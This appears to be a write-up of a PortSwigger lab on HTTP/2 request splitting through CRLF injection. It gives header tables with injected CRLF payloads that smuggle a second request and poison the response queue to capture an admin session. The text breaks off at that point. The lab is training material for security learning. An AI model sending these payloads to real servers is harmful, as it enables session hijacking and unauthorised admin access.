

# [Lab: HTTP/2 request splitting via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using `response queue poisoning` to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

## Detect

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: failed

## HTTP/2 request splitting

For example, you need to ensure that both requests received by the back-end contain a `Host` header, depends on how the frontend downgrades http2 to http1.1, if the frontend:

- strips the `:authority` pseudo-header and replace it with a new HTTP/1 `Host` header during downgrading:

  |     |     |
  | --- | --- |
  | :method | GET |
  | :path | /   |
  | :authority | vulnerable-website.com |
  | foo | bar\\r\\n \\r\\n GET /admin HTTP/1.1\\r\\n Host: vulnerable-website.com |

- appends the new Host header to the end of the current list of headers:

  |     |     |
  | --- | --- |
  | :method | GET |
  | :path | /   |
  | :authority | vulnerable-website.com |
  | foo | bar\\r\\n Host: vulnerable-website.com\\r\\n \\r\\n GET /admin HTTP/1.1 |

## Attack

Try both ways and we found that this lab is in the first case (response does not match the request), so we use this payload to attack `Response queue poisoning`:

|     |     |
| --- | --- |
| :method | GET |
| :path | /notfoundforsure   |
| :authority | vulnerable-website.com |
| foo | bar\\r\\n \\r\\n GET /notfoundforsure HTTP/1.1\\r\\n Host: vulnerable-website.com |

captured logged in admin session:

